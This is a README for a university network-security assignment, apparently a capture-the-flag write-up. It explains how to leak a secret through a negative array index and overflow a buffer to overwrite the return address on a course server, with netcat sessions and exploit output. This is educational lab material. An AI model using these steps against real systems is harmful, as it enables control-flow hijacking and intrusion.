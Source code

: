 # Buffer Overflow

[![License: IEEE](https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg)](http://creativecommons.org/licenses/by-nc-sa/4.0/)

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows. Notice that this repository is the course assignment of "Network Security 2018" in NCTU CS. If you are taking this course, please do not duplicate from this repository. All rights reserved.

---
## Goals

* Be able to identify and avoid buffer overflow vulnerabilities in native code.
* Understand the severity of buffer overflows and the necessity of standard defenses.
* Gain familiarity with machine architecture and assembly language.

---
## Description

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows. We have provided source code, binary executable, and the assembly code. Try to find vulnerability in these files and exploit it to get the secret flag. There are two flags: `flag1` & `flag2`. If you get `flag1`, you will score 100, `flag2` is just the bonus flag. Have fun!

---
## Solutions

* **Step 0** – Before starting, we should try to use the serve and observe vulnerabilities
    ```
    # Connect to the server 140.113.194.66:8787
    $ nc 140.113.194.66 8787
    ----------------------
            NS
    ----------------------
    1. View info
    2. Edit info
    3. Exit
    ----------------------
    Your choice:
    ```
    * In the program `proj3.c`, the main function will call function `func`.
        * In the function `func`, the variable `ret_addr` will store the return address of its function. This could be a key point to attack this program.
        * In the function `func`, we can see there is a switch-case a while loop and the third of case is going to compare `ret_addr` with variables `magic1` and `magic2` to decide which function to return.
    * Observe with the program `proj3.asm`.
        * The variable `ret_addr` in the `proj3.c` is store at `ebp-0x88` (line 688).
        * Above the declaration of `ret_addr` in the `proj3.c`, there is a variable `secret` with struct type `SEC`, which size is 32 bytes due to the operation system is 32-bits in the memory stack.
        * To explain the above mentioned, the struct of `SEC` include an array `info` with 32 elements which is 32 Bytes. After converting to hexadecimal-based, the size will become `0x20` which is mapped to `ebp-0x64` (line 702).
        * After the array info in the struct `SEC`, there is a 4 bytes unsigned long variable called `secret` which is a random number. The only way to change the content of `secret` is in the while loop which is in the function func.
    * In the program `proj3.c`, the function `edit_note` with a pointer `s`  as parameter which type `STU` is a struct includes variable `name` (16 bytes), `note` (16 bytes), `stuid` (16 bytes), and `age` (4 bytes). The total sizes are 44 bytes.
        * In the program `proj3.asm`, we can observe that the memory stack pushes 88 bytes for two persons `s` started from `ebp-0x60`.
* **Step 1** – Start to attack by using buffer overflow
    * By using buffer overflow to attack the server, we need to find out the input place that can let us input some payload to make the returned address be wrong (e.g., we want to get the content of the variable `magic1`, so that we need to return to `magic1`’s address).
    * In the program `proj3.c`, the function `menu` is the place to input some payload.
        * After connecting to the server, we can choose `2` to enter the mode of edit info. Then, the server will ask to enter the `secret` and there exists a severe problem.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice: 2
            Please input secret first:
            ```
        * The problem is that the value of integer in C can be positive or negative value. By entering a negative value, we can get the content outside the array’s index.
        * The more important thing is that the `secret` is stored behind the array `s[0]`. So that we can get the content of `secret` by entering `-1` as id in the mode of view info.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit 
            ----------------------
            Your choice: 1
            Please input id: -1
            Name: 1

            Note:
            Age: 2928863094
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice:
            ```
        * The value shows after age is the `secret`’s value (`2928863094`) because the address of `secret` is `ebp-0x60`. which is the top 4 bytes before `s[0]` from above 44 bytes. Notice that the `secret`’s value is a random number.
* **Step 2** – Enter into the edited mode
    * After entering into the edited mode, we can enter the `secret`’s value (`2928863094`) and choose one user arbitrarily.

        ```
        # Connect to the server 140.113.194.66:8787
        $ nc 140.113.194.66 8787
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 1
        Please input id: -1
        Name: 1

        Note:
        Age: 2928863094
        ----------------------
                NS
        ----------------------
        1. View info
        2. Edit info
        3. Exit
        ----------------------
        Your choice: 2
        Please input secret first: 2928863094
        Please input id: 1
        Input new note length:
        ```

    * In the program `proj3.c`, we found that we still cannot get the returned address we want if we only enter a positive integer less than 16 (line 124). Therefore, we enter `-1` because `-1` is a largest number in 2-based complement system so that we can trace back to the top of address in memory stack.
    * After entering `-1`, we are at the address of `note` in the struct `STU`. In that there is a variable name (16 bytes) before note, we can get the address of `note` from `s[0]` be `ebp-0x50`. Thus, we need to push 84 bytes ($5 \times 16 + 4 = 84$) to get the returned address.
* **Step 3** – Get the `flag1`
    * Finally, we found that `magic1` will cover the original address at `080489e0` so that we can get the `flag1` after choose `3` to exit. Notice that the address need to be written in format of little endian.
    ![](https://i.imgur.com/PDDjfHZ.png)

---
## File Structure

* `proj3.c` - The program of server on `140.113.194.66:8787`
* `prog3` - The execution file of `proj3.c`
* `proj3.asm` - The assembly program of `proj3.c`
* `proj3.py` - The program using buffer overflow to attack
* `flag1.txt` - The content of `flag1`

---
## Execution

```bash
# Execute the main.py for hacking the cipher
$ python proj3.py
[+] Opening connection to 140.113.194.66 on port 8787: Done
2928863094
FLAG{G00D_J0b!}
[*] Closed connection to 140.113.194.66 port 8787

# Show the true plaintext
$ cat flag1.txt
FLAG{G00D_J0b!}
```

---
## TODO

(Update soon.)

---
## Contributor

* [David Lu](https://github.com/yungshenglu)

---
> This repository is the course assignment of "Network Security 2018" in NCTU CS. If you are taking this course, please do not duplicate from this repository. All rights reserved.

[![License: IEEE](https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg)](http://creativecommons.org/licenses/by-nc-sa/4.0/)